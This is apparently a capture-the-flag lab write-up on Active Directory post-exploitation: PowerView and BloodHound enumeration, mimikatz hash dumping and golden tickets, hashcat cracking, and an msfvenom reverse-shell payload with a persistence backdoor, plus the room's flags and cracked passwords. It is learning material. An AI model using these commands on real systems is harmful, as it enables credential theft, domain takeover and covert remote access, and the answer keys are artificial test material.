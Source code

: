 # Post-Exploitation Basics - Easy

1. [Enumeration with Powerview](#enumeration-with-powerview)
2. [Enumeration with Bloodhound](#enumeration-with-bloodhound)
3. [Dumping hashes with mimikatz](#dumping-hashes-with-mimikatz)
4. [Golden Ticket Attacks with mimikatz](#golden-ticket-attacks-with-mimikatz)
5. [Enumeration with Server Manager](#enumeration-with-server-manager)
6. [Maintaining Access](#maintaining-access)

## Enumeration with Powerview

* Powerview is a PowerShell script for enumerating a domain after gaining a shell in the system.

* We can use resources such as [PowerView CheatSheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).

```shell
ssh Administrator@10.10.50.35
#ssh into target machine

powershell -ep bypass
#bypass execution policy of powershell
#to run scripts

. .\Downloads\PowerView.ps1
#start powerview

Get-NetUser | select cn
#enumerate domain users
#gives flag

Get-NetGroup -GroupName *admin*
#enumerate domain groups

Invoke-ShareFinder
#find shares

Get-NetComputer -FullData
#return full info of computers
```

```markdown
1. What is the shared folder that is not set by default? - Share

2. What operating system is running inside of the network besides Windows Server 2019? - Windows 10 Enterprise Evaluation

3. Find the flag. - POST{P0W3RV13W_FTW}
```

## Enumeration with Bloodhound

* Bloodhound is a GUI used to visually map out the network.

* It is used with SharpHound (like PowerView) to get network details into .json files.

```shell
#on attacker machine
sudo neo4j console
#start neo4j

#on target machine
powershell -ep bypass

. .\Downloads\SharpHound.ps1
#start SharpHound

Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
#get loot with SharpHound

dir
#to check loot file

#on attacker machine
#copy loot file using scp
scp Administrator@10.10.50.35:C:/Users/Administrator/20220519113424_loot.zip ~/

bloodhound
#login
#change default creds neo4j:neo4j
#once inside bloodhound GUI, import loot zip file
#use queries
```

```markdown
1. What service is also a domain admin? - sqlservice

2. What two users are Kerberoastable? - sqlservice, krbtgt
```

## Dumping hashes with mimikatz

```shell
#in target machine
cd Downloads

mimikatz.exe

privilege::debug

lsadump::lsa /patch
#dump hashes

#in attacker machine
#copy hashes and crack
hashcat -m 1000 machine1hash.txt /usr/share/wordlists/rockyou.txt
```

```markdown
1. What is the Machine 1 password? - Password1

2. What is the Machine 2 hash? - c39f2beb3d2ec06a62cb887fb391dee0
```

## Golden Ticket Attacks with mimikatz

```shell
mimikatz.exe

privilege::debug

lsadump::lsa /inject /name:krbtgt

kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
#sid, krbtgt and id to be filled from previous command

#use golden ticket to access other machines
misc::cmd
#cmd with elevated privileges
```

## Enumeration with Server Manager

```shell
sudo vim /etc/hosts
#add 10.10.50.35:CONTROLLER.local to hosts

rdesktop -u Administrator -p 'P@$$W0rd' -d CONTROLLER -v 10.10.50.35
#rdp
```

```markdown
We can open Windows Server Manager now and view the tabs.

Mainly, we can check the Tools and Manage tabs.

Navigate to Tools > Active Directory Users and Computers.

We can view the password for SQL Service.
```

```markdown
1. What tool allows to view the event logs? - Event Viewer

2. What is the SQL Service password? - MYpassword123#
```

## Maintaining Access

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.17.48.136 LPORT=4444 -f exe -o payload.exe
#generate payload

#transfer payload from attacker to target machine

#in attacker machine
msfconsole

use /exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

#set required options

run
#get meterpreter shell

background

use exploit/windows/local/persistence

set session 1
#persistence module creates a backdoor
```
